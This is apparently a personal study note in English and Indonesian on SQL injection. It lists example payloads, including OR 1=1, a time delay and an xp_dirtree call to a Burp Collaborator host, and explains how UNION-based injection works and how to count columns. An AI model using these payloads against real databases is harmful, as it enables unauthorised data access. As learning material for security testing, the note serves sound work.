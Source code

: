 # SQL Injection

## Resource
- [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Comment
![image](https://user-images.githubusercontent.com/52058660/146121986-00960851-1a8e-4f32-8543-c980b75c6c24.png)

## Payload
```
'
' OR 1=1--
ASCII(97)
'; waitfor delay ('0:00:20')--
exec master..xp_dirtree'//asdfdagffdshsdfgadfgadfgaf.burpcollaborator.net/a'
```

## UNION Attack
Syarat:
  - The individual queries must return the same number of columns.
  - The data types in each column must be compatible between the individual queries.

Untuk melancarkan UNION attack harus memenuhi 2 syarat diatas. Dari syarat2 diatas timbullah pertanyaan:
  - How many columns are being returned from the original query?
  ```
  'UNION SELECT NULL,NULL,n--, dimana n adalah jumlah kolom
  'ORDER BY 1/2/n--, dimana n adalah jumlah kolom
  ```
  - Which columns returned from the original query are of a suitable data type to hold the results from the injected query?


